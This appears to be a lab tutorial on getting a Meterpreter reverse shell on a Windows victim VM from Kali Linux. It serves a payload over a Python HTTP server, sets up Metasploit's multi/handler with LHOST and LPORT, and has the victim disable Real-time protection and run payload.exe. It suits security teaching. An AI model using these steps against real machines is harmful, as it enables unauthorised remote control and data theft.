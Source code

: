 ## Creating a Reverse Shell On Windows (Practical Session)



### Setting Up the Attack Machine:

1. Open the Kali Linux attack virtual machine and note its IP address (e.g., 10.60.0.7).
   
2. In the terminal, execute the `msfvenom` script to create a standalone payload as an executable file. Verify that the payload setup is successful.

3. Create a web file server on port 80 with the payload.exe directory by running the command:

```c
python -m http.server 80
```

### Configuring the Metasploit Framework:


1. Open a new terminal and start the Metasploit Framework console by typing `msfconsole`.
   
2. Once the console is ready, use the command `use multi/handler` to handle exploits launched outside the framework.

3. Configure the `exploit(multi/handler)` module with the same settings as the generated executable file by setting the payload, local host (LHOST), and local port (LPORT).


- Type `set payload windows/meterpreter/reverse_tcp` to set the payload.

- Type `set LHOST <attacker's IP> ` to set the local host to the Kali attack machine’s IP address.

- Type set `LPORT 4444` to set the local port as the same port made in the executable file.


4. Confirm that everything is set up correctly by entering the command `exploit` to start the server on the meterpreter, waiting for the payload connection.

![][https://miro.medium.com/v2/resize:fit:720/format:webp/1*c4OhK1vHz3gDr9elelrFYA.png]


### Preparing the Victim Machine:

1. Disable Real-time protection on the Windows victim machine.

2. Open a browser application on the victim machine.

3. In the browser tab, type the IP address of the Kali machine

4. Access the HTTP web server directory using the browser and locate the payload.exe file.

![][https://miro.medium.com/v2/resize:fit:2000/format:webp/1*GYQiLfvnBLQYHSsAXGO-iA.png]


5. Click on payload.exe and proceed through any download caution notifications, keeping the file and allowing it to run.

![][https://miro.medium.com/v2/resize:fit:640/format:webp/1*-02hDePRP2jBRRG5BuicUg.png]
